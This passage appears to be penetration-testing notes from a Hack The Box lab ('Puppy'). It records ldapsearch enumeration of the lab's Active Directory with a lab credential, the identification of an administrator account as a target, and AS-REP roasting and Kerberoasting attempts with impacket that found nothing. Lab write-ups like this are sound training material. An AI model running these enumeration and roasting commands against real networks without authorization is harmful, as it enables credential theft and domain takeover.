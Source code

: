 Details for `Stephen A. Cooper_adm` (in `OU=PUPPY ADMINS`):
Command: `ldapsearch -x -H ldap://10.129.62.158 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b 'OU=PUPPY ADMINS,DC=PUPPY,DC=HTB' '(&(objectClass=user)(cn=Stephen A. Cooper_adm))' sAMAccountName displayName userAccountControl description memberOf`

Result:
*   **`sAMAccountName`**: `steph.cooper_adm`
*   **`userAccountControl`**: `66048` (Account is **enabled**).
*   **`memberOf`**: `CN=Administrators,CN=Builtin,DC=PUPPY,DC=HTB`.
*   **Explanation**: `steph.cooper_adm` is an enabled account in the `PUPPY ADMINS` OU and is a direct member of the `Administrators` group. This is a high-value target.

**Summary of Key Enabled Accounts Mapped Out So Far:**
1.  `levi.james` (current user, in `HR` group)
2.  `jamie.williams` (in `DEVELOPERS` group)
3.  `ant.edwards` (in `DEVELOPERS` and `SENIOR DEVS` groups)
4.  `steph.cooper` (in `PUPPY ADMINS` OU, member of `Remote Management Users` - WinRM access)
5.  `steph.cooper_adm` (in `PUPPY ADMINS` OU, member of `Administrators` - Domain Admin equivalent)

Further analysis of interesting groups like `SENIOR DEVS` and the `PUPPY ADMINS` OU is needed.

Investigating `CN=SENIOR DEVS,CN=Builtin,DC=PUPPY,DC=HTB` group:
Command: `ldapsearch -x -H ldap://10.129.62.158 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b 'CN=SENIOR DEVS,CN=Builtin,DC=PUPPY,DC=HTB' '(objectClass=group)' sAMAccountName description member memberOf`

Result:
*   **`sAMAccountName`**: `SENIOR DEVS`
*   **`member`**: `CN=Anthony J. Edwards,DC=PUPPY,DC=HTB` (`ant.edwards`, enabled).
*   **`memberOf`**: Not a member of any other groups (based on the output).
*   **Explanation**: This group contains only the enabled user `ant.edwards`. Its location in `CN=Builtin` is unusual for a custom-named group. While it doesn't grant privileges through nesting, its direct permissions or any special properties due to its location in `Builtin` are yet to be determined.

Investigating `OU=PUPPY ADMINS,DC=PUPPY,DC=HTB` Organizational Unit:

Further analysis of interesting groups like `SENIOR DEVS` and the `PUPPY ADMINS` OU is needed.

### Kerberos Service Principal Name (SPN) Enumeration

#### AS-REP Roasting
Attempted to find users without Kerberos pre-authentication using `GetNPUsers.py`.
Command: `impacket-GetNPUsers PUPPY.HTB/levi.james:KingofAkron2025! -request -format hashcat -outputfile /home/parallels/Desktop/HTB/Season_8_Puppy_asrep_hashes.txt -dc-ip 10.129.62.158`
Result: `No entries found!`. No users are vulnerable to AS-REP roasting.

#### Kerberoasting (User Accounts)
Attempted to find service accounts with crackable TGS tickets using `GetUserSPNs.py`.
Command: `impacket-GetUserSPNs PUPPY.HTB/levi.james:KingofAkron2025! -request -outputfile /home/parallels/Desktop/HTB/Season_8_Puppy_kerberoast_hashes.txt -dc-ip 10.129.62.158`
Result: `No entries found!`. No user accounts with SPNs suitable for Kerberoasting were found with this tool.

#### Full SPN Listing via LDAP
To get a comprehensive list of all SPNs, a direct LDAP query was performed.
Command: `ldapsearch -x -H ldap://10.129.62.158 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b 'DC=PUPPY,DC=HTB' '(!(userAccountControl:1.2.840.113556.1.4.803:=2))' servicePrincipalName sAMAccountName > /home/parallels/Desktop/HTB/Season_8_Puppy_ldap_spns.txt`
Result: The output (1132 lines) was saved to `Season_8_Puppy_ldap_spns.txt`.
Analysis of the file showed that **no user accounts have SPNs configured**. The SPNs identified were standard SPNs associated with the Domain Controller computer account (`DC$`), such as:
*   `iSCSITarget/DC` and `iSCSITarget/DC.PUPPY.HTB`
*   `TERMSRV/DC` and `TERMSRV/DC.PUPPY.HTB`
*   `ldap/*`
*   `HOST/*`
*   `DNS/*`